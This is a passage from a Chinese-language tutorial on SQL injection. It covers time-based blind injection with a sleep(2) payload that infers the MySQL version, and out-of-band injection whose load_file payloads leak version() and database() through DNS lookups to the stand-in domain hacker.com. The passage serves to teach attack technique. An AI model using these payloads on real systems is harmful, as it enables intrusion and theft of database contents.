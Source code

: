 ![burp suite used to check for sql Injection](img/9cee5fe2fd4af16539b6acddc42a0d42.png)

确认漏洞后，我们可以继续提取数据库版本号。我们使用了一个命令，强制在两秒钟后回复:

`1' and if((select+@@version) like "10%",sleep(2),null);- -+`

如果响应在两秒钟内出现，则意味着版本以“10”开头我们在查询中使用的“like”字符串操作符旨在进行逐字符比较。

### **2.d .带外 SQL 注入**

使用这种类型的 SQL 注入，无论用户输入和数据库错误如何，应用程序都显示相同的响应。为了检索输出，使用了不同的传输通道，如 HTTP 请求或 DNS 解析；注意，攻击者需要控制所述 HTTP 或 DNS 服务器。

泄露有关 MYSQL 数据库的信息，攻击者可以使用以下查询:

数据库版本:

`1’;select load_file(concat('\\\\',version(),'.hacker.com\\s.txt'));`

数据库名称:

`1’;select load_file(concat('\\\\',database(),'.hacker.com\\s.txt'));`

上面的两个命令将 ***version()*** 或 ***database()*** 命令的输出连接成 DNS 解析查询域名“hacker.com”。

下图显示了如何将数据库的版本和名称添加到恶意域的 DNS 信息中。控制服务器的攻击者可以从日志文件中读取信息。

![The attacker controlling the server](img/ed538ba9e4064b7608f0d519283c8c35.png)

